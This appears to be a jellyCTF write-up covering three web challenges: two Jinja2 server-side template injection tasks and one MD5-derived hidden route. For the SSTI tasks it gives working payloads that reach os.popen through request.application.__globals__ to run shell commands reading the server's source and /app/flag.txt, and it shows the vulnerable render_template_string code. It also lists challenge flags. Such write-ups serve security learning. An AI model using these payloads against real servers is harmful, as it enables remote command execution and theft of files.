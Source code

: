 ```json
{
  "flag": "jellyCTF{keep_on_piping_jelly}",
  "score": 500000000001
}
```

### [web] bro_visited_his_site

This is SSTI (Server-side Template Injection). Specifically, this is Python Jinja2.
Look at the vulnerable code below.

```python
{% raw  %}    return render_template_string(f'''
        {{% set config="friend" %}}
        {{% set self="visit" %}}
        <p>
            {word}pilled {word}maxxer
        </p>
    '''){% endraw %}
```

Here, our goal is to print the flag in `app.config["FLAG"]`.
A quick online search of cheatsheet shall give thousands of results.
Unfortunately, we cannot directly refer to `config` and `self` as they are set to be variable
and replaced before rendering.

But knowing the flag is in the source code, I went for printing out the code using the following payload.

```
{% raw  %}{{request.application.__globals__.__builtins__.__import__('os').popen('cat /app/bros_site.py').read()}}{% endraw %}
```

This injection here is likely unintended and could have been avoided if the source file is deleted after the server start (i.e. `os.remove('/app/bros_site.py')` at the beginning of the source).

### [web] bro_visited_his_site_2

Similarly, the second flag is stored in the `/app/flag.txt`. We use similar injection to get the flag.

```
{% raw  %}{{request.application.__globals__.__builtins__.__import__('os').popen('cat /app/flag.txt').read()}}{% endraw %}
```

### [web] aidoru

When clicking on any talents, we find out the page route is actually `MD5(talent_name)` (via crackstation).
Cross-checking the source code, our target seems to be visiting Jelly's page, which is seemingly blocked and redirected when we click in `index.html`. However, there are no tellings the path does not exist, so we just calculate the path manually, `MD5("jelly")`, and enter it in the address bar. The flag shall be in one of the Youtube src.
